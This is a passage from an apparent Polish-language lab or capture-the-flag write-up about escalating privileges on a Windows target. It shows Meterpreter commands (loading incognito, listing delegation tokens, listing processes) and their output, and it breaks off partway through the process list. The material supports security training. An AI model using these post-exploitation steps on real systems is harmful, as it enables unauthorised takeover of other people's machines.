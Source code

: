To zadanie polega na migracji do procesu z wyższymi uprawnieniami. Wykonując podpowiedzi z zadania w `Metasploit` wpisuję polecenia:
```
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT SERVICE\AudioEndpointBuilder
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\ShellHWDetection
NT SERVICE\TrkWks
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\Winmgmt
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
No tokens available

meterpreter > ps
                                                                                                                    
Process List                                                                                                        
============                                                                                                        
                                                                                                                    
 PID   PPID  Name                  Arch  Session  User                          Path                                
 ---   ----  ----                  ----  -------  ----                          ----                                
 0     0     [System Process]                                                                                       
 4     0     System                x64   0                                                                          
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe        
 404   1808  cmd.exe               x86   0        alfred\bruce                  C:\Windows\SysWOW64\cmd.exe         
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe       
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe       
```